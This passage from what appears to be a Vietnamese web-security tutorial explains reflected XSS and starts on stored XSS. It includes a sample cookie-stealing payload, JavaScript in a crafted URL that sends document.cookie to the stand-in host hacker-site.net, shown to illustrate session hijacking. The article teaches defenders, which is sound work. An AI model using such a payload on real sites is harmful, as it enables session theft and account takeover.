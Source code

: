Reflected XSS phát sinh khi ứng dụng nhận được dữ liệu trong yêu cầu HTTP và bao gồm dữ liệu đó trong phản hồi ngay lập tức theo cách không an toàn.

Có nhiều hướng để khai thác thông qua lỗi Reflected XSS, một trong những cách được biết đến nhiều nhất là chiếm phiên làm việc (session) của người dùng, từ đó có thể truy cập được dữ liệu và chiếm được quyền của họ trên website. Chi tiết được mô tả qua những bước sau:

![](https://images.viblo.asia/28e81cf8-c006-4835-9ef0-a8df7d2ccd12.jpg)

1.  Người dùng đăng nhập web và giả sử được gán session:

Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4

2.  Bằng cách nào đó, hacker gửi được cho người dùng URL:

[http://example.com/name=var+i=new+Image;+i.src=”http://hacker-site.net/”%2Bdocument.cookie;](http://example.com/name=var+i=new+Image;+i.src=%E2%80%9Dhttp://hacker-site.net/%E2%80%9D%2bdocument.cookie;)

Giả sử [example.com](http://example.com/) là website nạn nhân truy cập, [hacker-site.net](http://hacker-site.net/) là trang của hacker tạo ra

3.  Nạn nhân truy cập đến URL trên
    
4.  Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request (đoạn javascript của hacker)
    
5.  Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript
    
6.  Đoạn javascript mà hacker tạo ra thực tế như sau:
    

var i=new Image; i.src=”[http://hacker-site.net/”+document.cookie;](http://hacker-site.net/%E2%80%9D+document.cookie;)

Dòng lệnh trên bản chất thực hiện request đến site của hacker với tham số là cookie người dùng:

GET /sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4 HTTP/1.1

Host: [hacker-site.net](http://hacker-site.net/)

7.  Từ phía site của mình, hacker sẽ bắt được nội dung request trên và coi như session của người dùng sẽ bị chiếm. Đến lúc này, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.

**Ảnh hưởng của Reflected XSS:**

Nếu kẻ tấn công có thể kiểm soát tập lệnh được thực thi trong trình duyệt của nạn nhân thì chúng thường có thể xâm phạm hoàn toàn người dùng đó. Trong số những thứ khác, kẻ tấn công có thể:

* Thực hiện bất kỳ hành động nào trong ứng dụng mà người dùng có thể thực hiện.

* Xem bất kỳ thông tin nào mà người dùng có thể xem.

* Sửa đổi bất kỳ thông tin nào mà người dùng có thể sửa đổi.

* Bắt đầu tương tác với những người dùng ứng dụng khác, bao gồm cả các cuộc tấn công độc hại, dường như bắt nguồn từ người dùng nạn nhân ban đầu.

2\. Stored XSS:
---------------

Khác với Reflected tấn công trực tiếp vào một số nạn nhân mà hacker nhắm đến, Stored XSS hướng đến nhiều nạn nhân hơn. Lỗi này xảy ra khi ứng dụng web không kiểm tra kỹ các dữ liệu đầu vào trước khi lưu vào cơ sở dữ liệu (ở đây tôi dùng khái niệm này để chỉ database, file hay những khu vực khác nhằm lưu trữ dữ liệu của ứng dụng web). Ví dụ như các form góp ý, các comment … trên các trang web. Với kỹ thuật Stored XSS , hacker không khai thác trực tiếp mà phải thực hiện tối thiểu qua 2 bước.
